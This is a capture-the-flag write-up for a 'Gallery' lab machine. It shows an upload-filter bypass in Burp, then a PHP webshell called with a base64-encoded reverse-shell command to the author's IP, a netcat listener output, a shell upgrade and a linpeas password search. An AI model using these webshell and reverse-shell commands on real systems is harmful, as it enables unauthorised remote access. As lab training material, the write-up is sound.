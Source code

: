 ![[UploadFile 1.png]]

First we need to change the request and remove the PNG extension in Burp

![[BurpUpload.png]]
Success! Now we just need to find out where the file has been stored. After a bit of searching I noticed you can download the "image" you uploaded by clicking on the 3 dots on the image. Hovering over the download option exposed the path, where our file got stored.
![[RCE.png]]

from here on, its pretty obvious what we're gonna do. (Reverse Shell)

Encoding the command into Base64 and piping it over to bash 

```bash

http://10.10.41.122/gallery/uploads/user_1/album_2/1678483200.php?cmd=echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTEuOS4yNDgvNDQ0NCAwPiYx | base64 -d | bash

```

Meanwhile on my machine

```bash

┌──(kali㉿kali)-[~/CTFs/TryHackmeCTFs/Gallery]
└─$ nc -lnvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.41.122.
Ncat: Connection from 10.10.41.122:35900.
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gallery:/var/www/html/gallery/uploads/user_1/album_2$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@gallery:/var/www/html/gallery/uploads/user_1/album_2$ 

```

So far so good, we got a shell.  there's really nothing all that interesting or usefull in this /var/www/html/gallery path. Kinda gave up on manual enummeration and moved linpeas.sh to the box.

```bash

╔══════════╣ Searching passwords in history files
      @stats   = stats
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -l <REDACTED>
sudo -l

```

